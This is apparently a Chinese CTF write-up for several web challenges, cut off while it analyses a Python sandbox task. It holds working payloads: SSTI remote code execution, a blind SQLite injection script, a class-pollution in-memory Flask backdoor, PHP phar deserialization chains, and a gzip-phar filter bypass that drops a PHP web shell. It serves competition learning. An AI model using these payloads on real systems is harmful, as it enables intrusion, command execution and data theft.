

看到一个env



看这里测了半天都没出，最后直接env whoami就行了。。。

```bash
?name={{""['__cla'++'ss__']['__bas'+'e__']['__subclas'+'ses__']()[142]['__in'+'it__']['__glob'+'als__']['popen']('env cat /flag').read()}}1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```

本来一开始是用的`env /bin/sh -c \"whoami\"`，但是发现-c会触发内部防护策略，-c  的话会丢弃这个权限，执行完后退出，内部会当成是临时命令，这时候会采取降权后执行



所以应该改成

```python
env /bin/sh -p -c "whoami"
```

-p参数是为了维持权限，防止sh降权

## Sequal No Uta、

### #过滤空格的SQlite注入

测waf，发现过滤了空格

```bash
admin						#该用户存在且活跃
admin'/**/and/**/'1'>'1		#未找到用户或已停用
admin'/**/and/**/'1'>'0		#该用户存在且活跃
```

可以打布尔盲注，但是需要注意的是sqlite在爆破字段的时候需要用到`SELECT sql FROM sqlite_master WHERE type='table';`，测试的时候like感觉不太好用，有大小写敏感问题，所以换成用glob运算符去做模糊匹配

```python
import requests

url = "http://019a71c1-6c2a-7720-a32d-222728b4150e.geek.ctfplus.cn/check.php"
i = 0
target = ""
dict = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz-,{}_()?"

for i in range(1,2000):
    sign = 0
    for j in dict:
        #payload = "'/**/or/**/(select/**/group_concat(name)/**/from/**/sqlite_master/**/where/**/type/**/='table')/**/glob/**/'{}'/*".format(target + j + '*')
        #payload = "'/**/or/**/(select/**/group_concat(sql)/**/from/**/sqlite_master/**/where/**/name/**/='users')/**/glob/**/'{}'/*".format(target + j + '*')
        payload = "'/**/or/**/(select/**/group_concat(secret)/**/from/**/users)/**/glob/**/'{}'/*".format(target + j + '*')
        print(payload)
        response = requests.post(url+"?name="+payload)
        if "该用户存在且活跃" in response.text:
            target += j
            sign = 1
            print(target)
            break
    if sign == 0:
        target = target.replace("?"," ")
        break
print(target)
```

但是一直不知道怎么处理空格的问题，所以用问号去代替空格了

## 百年继承

### #原型链污染+内存马

先整体点一下，在第二阶段有


第五阶段就噶了


其实看完这两个图可以整理出这些信息

```python
人类(基类)->上校的父亲->上校
人类(基类)->行刑队
佩剑->lambda匿名函数
人类->execute_method->lambda匿名函数
```

关注到一个lambda函数

```python
lambda executor, target: (target.__del__(), setattr(target, 'alive', False), '处决成功')
```

结合上面的信息可以写出几个类

```python
class 人类:
    def __init__(self):
        self.alive = True
        self.execute_method = lambda executor, target: (
            target.__del__(), 
            setattr(target, 'alive', False), '处决成功')

class 上校的父亲(人类):
    pass

class 上校(上校的父亲):
    def __init__(self):
        super().__init__()
        self.weapon = None
        self.tactic = None
    
    def 做出选择(self, weapon, tactic):
        self.weapon = weapon
        self.tactic = tactic

class 行刑队(人类):
    def 执行判决(self, target):
        result = self.execute_method(self, target)
        return result
    
```

猜测是存在原型链污染的，需要污染的就是execute_method属性

这里也是卡了好久，不知道这两个参数在哪个里面打原型链污染比较好，后面干脆新加一个参数去打

需要注意这里是两次继承，需要两个`__base__`，一开始记错了用了两次`__class__`

```json
{
    "weapon":"spear",
    "tactic":"ambush",
    "__class__" :{
        "__base__" : {
            "__base__" : {
                "execute_method" : "__import__('sys').modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None,[]).append(lambda :__import__('os').popen('env').read())"
            }
        }
    }
}
```



能执行那直接RCE就行

## ez-seralize

### #phar反序列化

一个任意文件读取

常规读取一下index.php

```php
<?php
ini_set('display_errors', '0');
$filename = isset($_GET['filename']) ? $_GET['filename'] : null;

$content = null;
$error = null;

if (isset($filename) && $filename !== '') {
    $balcklist = ["../","%2e","..","data://","\n","input","%0a","%","\r","%0d","php://","/etc/passwd","/proc/self/environ","php:file","filter"];
    foreach ($balcklist as $v) {
        if (strpos($filename, $v) !== false) {
            $error = "no no no";
            break;
        }
    }

    if ($error === null) {
        if (isset($_GET['serialized'])) {
            require 'function.php';
            $file_contents= file_get_contents($filename);
            if ($file_contents === false) {
                $error = "Failed to read seraizlie file or file does not exist: " . htmlspecialchars($filename);
            } else {
                $content = $file_contents;
            }
        } else {
            $file_contents = file_get_contents($filename);
            if ($file_contents === false) {
                $error = "Failed to read file or file does not exist: " . htmlspecialchars($filename);
            } else {
                $content = $file_contents;
            }
        }
    }
} else {
    $error = null;
}
?>
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <title>File Reader</title>
    <style>
        :root{
            --card-bg: #ffffff;
            --page-bg: linear-gradient(135deg,#f0f7ff 0%,#fbfbfb 100%);
            --accent: #1e88e5;
            --muted: #6b7280;
            --success: #16a34a;
            --danger: #dc2626;
            --card-radius: 12px;
            --card-pad: 20px;
        }
        html,body{height:100%;margin:0;font-family: Inter, "Segoe UI", Roboto, "Helvetica Neue", Arial;}
        body{
            background: var(--page-bg);
            display:flex;
            align-items:center;
            justify-content:center;
            padding:24px;
        }
        .card{
            width:100%;
            max-width:820px;
            background:var(--card-bg);
            border-radius:var(--card-radius);
            box-shadow: 0 10px 30px rgba(16,24,40,0.08);
            padding:var(--card-pad);
        }
        h1{margin:0 0 6px 0;font-size:18px;color:#0f172a;}
        p.lead{margin:0 0 18px 0;color:var(--muted);font-size:13px}
        form.controls{display:flex;gap:10px;flex-wrap:wrap;align-items:center;margin-bottom:14px}
        input[type="text"]{
            flex:1;
            padding:10px 12px;
            border:1px solid #e6e9ef;
            border-radius:8px;
            font-size:14px;
            outline:none;
            transition:box-shadow .12s ease,border-color .12s ease;
        }
        input[type="text"]:focus{box-shadow:0 0 0 4px rgba(30,136,229,0.08);border-color:var(--accent)}
        button.btn{
            padding:10px 16px;
            background:var(--accent);
            color:white;
            border:none;
            border-radius:8px;
            cursor:pointer;
            font-weight:600;
        }
        button.btn.secondary{
            background:#f3f4f6;color:#0f172a;font-weight:600;border:1px solid #e6e9ef;
        }
        .hint{font-size:12px;color:var(--muted);margin-top:6px}
        .result{
            margin-top:14px;
            border-radius:8px;
            overflow:hidden;
            border:1px solid #e6e9ef;
        }
        .result .meta{
            padding:10px 12px;
            display:flex;
            justify-content:space-between;
            align-items:center;
            background:#fbfdff;
            font-size:13px;
            color:#111827;
        }
        .result .body{
            padding:12px;
            background:#0b1220;
            color:#e6eef8;
            font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, "Roboto Mono", monospace;
            font-size:13px;
            line-height:1.5;
            max-height:520px;
            overflow:auto;
            white-space:pre-wrap;
            word-break:break-word;
        }
        .alert{padding:10px 12px;border-radius:8px;font-weight:600;margin-top:12px;}
        .alert.warn{background:#fff7ed;color:#92400e;border:1px solid #ffedd5}
        .alert.error{background:#fff1f2;color:#9f1239;border:1px solid #fecaca}
        .alert.info{background:#ecfeff;color:#064e3b;border:1px solid #bbf7d0}
        .footer{margin-top:12px;font-size:12px;color:var(--muted)}
        @media (max-width:640px){
            .card{padding:16px}
            .result .meta{font-size:12px}
        }
    </style>
</head>
<body>
<div class="card">
    <h1>📄 File Reader</h1>
    <p class="lead">在下面输入要读取的文件</p>

    <form class="controls" method="get" action="">
        <input type="text" name="filename" value="<?php echo isset($_GET['filename']) ? htmlspecialchars($_GET['filename'], ENT_QUOTES) : ''; ?>" />
        <button type="submit" class="btn">读取文件</button>
        <a class="btn secondary" href="">重置</a>
    </form>


    <?php if ($error !== null && $error !== ''): ?>
        <div class="alert error" role="alert"><?php echo htmlspecialchars($error, ENT_QUOTES); ?></div>
    <?php endif; ?>
    <!--RUN printf "open_basedir=/var/www/html:/tmp\nsys_temp_dir=/tmp\nupload_tmp_dir=/tmp\n" \
    > /usr/local/etc/php/conf.d/zz-open_basedir.ini-->

    <?php if ($content !== null): ?>
        <div class="result" aria-live="polite">
            <div class="meta">
                <div>文件：<?php echo htmlspecialchars($filename, ENT_QUOTES); ?></div>
                <div style="font-size:12px;color:var(--muted)"><?php echo strlen($content); ?> bytes</div>
            </div>
            <div class="body"><pre><?php echo htmlspecialchars($content, ENT_QUOTES); ?></pre></div>
        </div>
    <?php elseif ($error === null && isset($_GET['filename'])): ?>
        <div class="alert warn">未能读取内容或文件为空。</div>
    <?php endif; ?>
</div>
</body>
</html>
```

找到一个function.php，读取一下

```php
<?php
class A {
    public $file;
    public $luo;

    public function __construct() {
    }

    public function __toString() {
        $function = $this->luo;
        return $function();
    }
}

class B {
    public $a;
    public $test;

    public function __construct() {
    }

    public function __wakeup()
    {
        echo($this->test);
    }

    public function __invoke() {
        $this->a->rce_me();
    }
}

class C {
    public $b;

    public function __construct($b = null) {
        $this->b = $b;
    }

    public function rce_me() {
        echo "Success!\n";
        system("cat /flag/flag.txt > /tmp/flag");
    }
}
```

估计是反序列化，先审一下链子

 ```php
 <?php
 class A {
     public $file;
     public $luo;
 }
 
 class B {
     public $a;
     public $test;
 }
 
 class C {
     public $b;
 }
 $a = new B();
 $a -> test = new A();
 $a -> test -> luo = new B();
 $a -> test -> luo -> a = new C();
 echo urlencode(serialize($a));
 ```

但是没找到反序列化的口子

扫目录拿到一个/robots.txt，访问有一个`/var/www/html/uploads.php`

读取一下看看源码

```php
<?php
$uploadDir = __DIR__ . '/uploads/';
if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0755, true);
}
$whitelist = ['txt', 'log', 'jpg', 'jpeg', 'png', 'zip','gif','gz'];
$allowedMimes = [
    'txt'  => ['text/plain'],
    'log'  => ['text/plain'],
    'jpg'  => ['image/jpeg'],
    'jpeg' => ['image/jpeg'],
    'png'  => ['image/png'],
    'zip'  => ['application/zip', 'application/x-zip-compressed', 'multipart/x-zip'],
    'gif'  => ['image/gif'],
    'gz'   => ['application/gzip', 'application/x-gzip']
];

$resultMessage = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['file'])) {
    $file = $_FILES['file'];

    if ($file['error'] === UPLOAD_ERR_OK) {
        $originalName = $file['name'];
        $ext = strtolower(pathinfo($originalName, PATHINFO_EXTENSION));
        if (!in_array($ext, $whitelist, true)) {
            die('File extension not allowed.');
        }

        $mime = $file['type'];
        if (!isset($allowedMimes[$ext]) || !in_array($mime, $allowedMimes[$ext], true)) {
            die('MIME type mismatch or not allowed. Detected: ' . htmlspecialchars($mime));
        }

        $safeBaseName = preg_replace('/[^A-Za-z0-9_\-\.]/', '_', basename($originalName));
        $safeBaseName = ltrim($safeBaseName, '.');
        $targetFilename = time() . '_' . $safeBaseName;

        file_put_contents('/tmp/log.txt', "upload file success: $targetFilename, MIME: $mime\n");

        $targetPath = $uploadDir . $targetFilename;
        if (move_uploaded_file($file['tmp_name'], $targetPath)) {
            @chmod($targetPath, 0644);
            $resultMessage = '<div class="success"> File uploaded successfully '. '</div>';
        } else {
            $resultMessage = '<div class="error"> Failed to move uploaded file.</div>';
        }
    } else {
        $resultMessage = '<div class="error"> Upload error: ' . $file['error'] . '</div>';
    }
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Secure File Upload</title>
    <style>
        body {
            font-family: "Segoe UI", Arial, sans-serif;
            background: linear-gradient(135deg, #e3f2fd, #f8f9fa);
            height: 100vh;
            display: flex;
            align-items: center;
            justify-content: center;
        }
        .container {
            background: #fff;
            padding: 2em 3em;
            border-radius: 16px;
            box-shadow: 0 8px 24px rgba(0,0,0,0.1);
            max-width: 400px;
            width: 90%;
            text-align: center;
        }
        h1 {
            color: #0078d7;
            margin-bottom: 0.8em;
            font-size: 1.6em;
        }
        input[type="file"] {
            display: block;
            margin: 1em auto;
            font-size: 0.95em;
        }
        button {
            background-color: #0078d7;
            color: white;
            border: none;
            padding: 0.6em 1.4em;
            border-radius: 6px;
            cursor: pointer;
            transition: 0.2s ease;
        }
        button:hover {
            background-color: #005ea6;
        }
        .success, .error {
            margin-top: 1em;
            padding: 0.8em;
            border-radius: 8px;
            font-weight: 600;
        }
        .success {
            background: #e8f5e9;
            color: #2e7d32;
            border: 1px solid #81c784;
        }
        .error {
            background: #ffebee;
            color: #c62828;
            border: 1px solid #ef9a9a;
        }
        .footer {
            margin-top: 1.5em;
            font-size: 0.85em;
            color: #666;
        }
    </style>
</head>
<body>
<div class="container">
    <h1>📤 File Upload Portal</h1>
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" required>
        <button type="submit">Upload</button>
    </form>
    <?= $resultMessage ?>
    <div class="footer">Allowed types: txt, log, jpg, jpeg, png, zip</div>
</div>
</body>
</html>
```

大致看了一下，对文件上传做了一些基础的检测和过滤，结合前面的反序列化，可以打phar反序列化，file_get_contents函数也是可以触发phar反序列化的

创建一个phar文件

```php
<?php
class A {
    public $file;
    public $luo;
}

class B {
    public $a;
    public $test;
}

class C {
    public $b;
}
$a = new B();
$a -> test = new A();
$a -> test -> luo = new B();
$a -> test -> luo -> a = new C();
$phar = new phar('test.phar');//后缀名必须为phar 
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub
$phar->setMetadata($a);//自定义的meta-data存入manifest
$phar->addFromString("test.txt","flag");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

 需要注意的是，这里的文件名会命名为`$targetFilename = time() . '_' . $safeBaseName;`，所以我们bp发包然后拿到时间并生成时间戳

```python
from datetime import datetime, timezone

date_str = "Mon, 03 Nov 2025 13:02:41 GMT"
dt = datetime.strptime(date_str, "%a, %d %b %Y %H:%M:%S GMT")
timestamp = dt.replace(tzinfo=timezone.utc).timestamp()

print(int(timestamp))

```

然后在读取文件页面传参

```http
?filename=phar://uploads/1762174961_test.jpg&serialized=1
```

这里是需要进入serialized的if的，传入后页面返回Success!说明成功了，那flag就会在/tmp/flag



## eeeeezzzzzzZip

### #phar文件上传gzip绕过

扫出一个www.zip

login.php

```php
<?php
session_start();

$err = '';
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $u = $_POST['user'] ?? '';
    $p = $_POST['pass'] ?? '';
    if ($u === 'admin' && $p === 'guest123') {
        $_SESSION['user'] = $u;
        header("Location: index.php");
        exit;
    } else {
        $err = '登录失败：用户名或密码错误';
    }
}
?>
```

账号密码就是admin/guest123

index.php

```php
<?php
// index.php
session_start();
error_reporting(0);

if (!isset($_SESSION['user'])) {
    header("Location: login.php");
    exit;
}

$salt = 'GeekChallenge_2025';
if (!isset($_SESSION['dir'])) {
    $_SESSION['dir'] = bin2hex(random_bytes(4));
}
$SANDBOX = sys_get_temp_dir() . "/uploads_" . md5($salt . $_SESSION['dir']);
if (!is_dir($SANDBOX)) mkdir($SANDBOX, 0700, true);

$files = array_diff(scandir($SANDBOX), ['.', '..']);	//列出当前目录下的文件组成数组
$result = '';
if (isset($_GET['f'])) {
    $filename = basename($_GET['f']);
    $fullpath = $SANDBOX . '/' . $filename;
    if (file_exists($fullpath) && preg_match('/\.(zip|bz2|gz|xz|7z)$/i', $filename)) {	//要求文件名中需要包含压缩包后缀名
        ob_start();
        @include($fullpath);
        $result = ob_get_clean();
    } else {
        $result = "文件不存在或非法类型。";
    }
}
?>
```

有一个文件包含，但是对文件名有要求限制

其实看到压缩包，加上文件包含的话，大致就能知道还是打phar文件上传这一套了，先继续往下看吧

再看看文件上传的逻辑

```php
<?php
session_start();
error_reporting(0);

$allowed_extensions = ['zip', 'bz2', 'gz', 'xz', '7z'];
$allowed_mime_types = [
    'application/zip',
    'application/x-bzip2',
    'application/gzip',
    'application/x-gzip',
    'application/x-xz',
    'application/x-7z-compressed',
];

$BLOCK_LIST = [
    "__HALT_COMPILER()",
    "PK",
    "<?",
    "<?php",
    "phar://",
    "php",
    "?>"
];
```

设置了文件拓展名白名单，mime类型白名单以及文件内容的黑名单

```php
function content_filter($tmpfile, $block_list) {
    $fh = fopen($tmpfile, "rb");
    if (!$fh) return true;
    $head = fread($fh, 4096);
    fseek($fh, -4096, SEEK_END);
    $tail = fread($fh, 4096);
    fclose($fh);
    $sample = $head . $tail;
    $lower = strtolower($sample);
    foreach ($block_list as $pat) {
        if (stripos($sample, $pat) !== false) {
            // 为避免泄露过多信息，这里不直接 echo sample（你之前有 echo，保持注释）
            return false;
        }
        if (stripos($lower, strtolower($pat)) !== false) {
            return false;
        }
    }
    return true;
}
```

分别提取文件前后最多4096个字节内容作为head和tail，然后检测是否存在黑名单中的内容，并且是大小写敏感的

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!isset($_FILES['file'])) {
        http_response_code(400);
        die("No file.");
    }
    $tmp = $_FILES['file']['tmp_name'];
    $orig = basename($_FILES['file']['name']);
    if (!is_uploaded_file($tmp)) {
        http_response_code(400);
        die("Upload error.");
    }

    $ext = strtolower(pathinfo($orig, PATHINFO_EXTENSION));
    if (!in_array($ext, $allowed_extensions)) {
        http_response_code(400);
        die("Bad extension.");
    }

    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mime = finfo_file($finfo, $tmp);
    finfo_close($finfo);
    if (!in_array($mime, $allowed_mime_types)) {
        http_response_code(400);
        die("Bad mime.");
    }

    if (!content_filter($tmp, $BLOCK_LIST)) {
        http_response_code(400);
        die("Content blocked.");
    }

    $newname = time() . "_" . preg_replace('/[^A-Za-z0-9._-]/', '_', $orig);
    $dest = $SANDBOX . '/' . $newname;

    if (!move_uploaded_file($tmp, $dest)) {
        http_response_code(500);
        die("Move failed.");
    }

    echo "UPLOAD_OK:" . htmlspecialchars($newname, ENT_QUOTES);
    exit;
}
?>
```

检查文件拓展名以及mime类型和内容黑名单，并重命名`$newname = time() . "_" . preg_replace('/[^A-Za-z0-9._-]/', '_', $orig);`

注意到内容黑名单

```php
$BLOCK_LIST = [
    "__HALT_COMPILER()",
    "PK",
    "<?",
    "<?php",
    "phar://",
    "php",
    "?>"
];
```

有对`__HALT_COMPILER`的检测，此时我们可以将phar文件内容写入到压缩包中，压缩为zip文件，这样就能绕过检测了

```php
<?php
$phar = new Phar('exploit.phar');
$phar->startBuffering();
$stub = <<<'STUB'
<?php
system('echo "<?php system(\$_GET[1]); ?>" > 1.php');
__HALT_COMPILER();
?>
STUB;

$phar->setStub($stub);
$phar->addFromString('test.txt', 'test');
$phar->stopBuffering();
?>
```

然后用gzip命令进行压缩

```bash
gzip exploit.phar
```

将生成的压缩包上传拿到返回路径


返回index.php页面



直接include不行，需要用phar协议去触发

```php
?f=phar://1762324424_exploit.phar.gz
```

解析后访问1.php直接打就行



## 西纳普斯的许愿碑

#沙箱绕过

把附件下下来

先分析一下app.py

```python
from flask import Flask, render_template, send_from_directory, jsonify, request
import json
import threading
import time

app = Flask(__name__, template_folder='template', static_folder='static')
with open("asset/txt/wishes.json", 'r', encoding='utf-8') as f:
    wishes = json.load(f)['wishes']

wishes_lock = threading.Lock()
```

设置了渲染模板和静态目录，然后读取了wishes的json文件作为wishes心愿单

```json
{
  "wishes": [
    "I wish for boundless wealth and prosperity",
    "I wish for everyone to have eternal life",
    "I wish to be surrounded by beautiful women",
    "I wish to attain a prestigious and noble status",
    "I wish to taste the most delicious food",
    "I want to never be parted from my beloved"
  ]
}
```

```python
wishes_lock = threading.Lock()
```

这里加了个互斥锁，意思是多线程的情况下可以保护某个代码不被多个线程同时执行

```python
@app.route('/')
def index():
    return render_template('index.html')

@app.route('/assets/<path:filename>')
def assets(filename):
    return send_from_directory('asset', filename)
```

一个根路由和一个能访问asset目录下文件的路由

看关键代码

```python
@app.route('/api/wishes', methods=['GET', 'POST'])
def wishes_endpoint():
    from wish_stone import evaluate_wish_text
    if request.method == 'GET':
        with wishes_lock:
            evaluated = [evaluate_wish_text(w) for w in wishes]
        return jsonify({'wishes': evaluated})

    data = request.get_json(silent=True) or {}
    text = data.get('wish', '')
    if isinstance(text, str) and text.strip():
        with wishes_lock:
            wishes.append(text.strip())

        return jsonify({'ok': True}), 201
    return jsonify({'ok': False, 'error': 'empty wish'}), 400
```

导入wish_stone中的evaluate_wish_text方法

```python
badchars = "\"'|&`+-*/()[]{}_ .".replace(" ", "")

def evaluate_wish_text(text: str) -> str:
    for ch in badchars:
        if ch in text:
            print(f"ch={ch}")
            return f"Error:waf {ch}"
    out = safe_grant(CODE.format(text))
    return out
```

接收一个text的字符串并做一个黑名单检查过滤，看到最后一行代码

```python
out = safe_grant(CODE.format(text))
```

如果没触发WAF就会将text拼接到CODE里面

```python
CODE = '''
def wish_checker(event,args):
    allowed_events = ["import", "time.sleep", "builtins.input", "builtins.input/result"]
    if not list(filter(lambda x: event == x, allowed_events)):
        raise Exception
    if len(args) > 0:
        raise Exception
addaudithook(wish_checker)
print("{}")
'''
```

并调用safe_grant方法

```python
def safe_grant(wish: str, timeout=3):
    wish = wish.encode().decode('unicode_escape')
    try:
        parse_wish = ast.parse(wish)#将wish代码解析成AST抽象语法树
        Wish_stone().visit(parse_wish)#检查语法树
    except Exception as e:
        return f"Error: bad wish ({e.__class__.__name__})"

    result_queue = multiprocessing.Queue()#用来在子进程和主进程之间传递执行结果
    p = multiprocessing.Process(target=wish_granter, args=(wish, result_queue))
    p.start()
    p.join(timeout=timeout)

    if p.is_alive():
        p.terminate()
        return "You wish is too long."

    try:
        status, output = result_queue.get_nowait()
        print(output)
        return output if status == "ok" else f"Error grant: {output}"
    except:
        return "Your wish for nothing."
```

先是将字符串转化成bytes字节并用unicode_escape解码，然后将wish代码解析成语法树并检查

检查后通过multiprocessing去开启线程执行函数wish_granter，wish_granter函数接收两个参数wish和result_queue

```python
SAFE_WISHES = {
    "print": print,
    "filter": filter,
    "list": list,
    "len": len,
    "addaudithook": sys.addaudithook,
    "Exception": Exception,
}
def wish_granter(code, result_queue):
    safe_globals = {"__builtins__": SAFE_WISHES}

    sys.stdout = io.StringIO()
    sys.stderr = io.StringIO()

    try:
        exec(code, safe_globals)
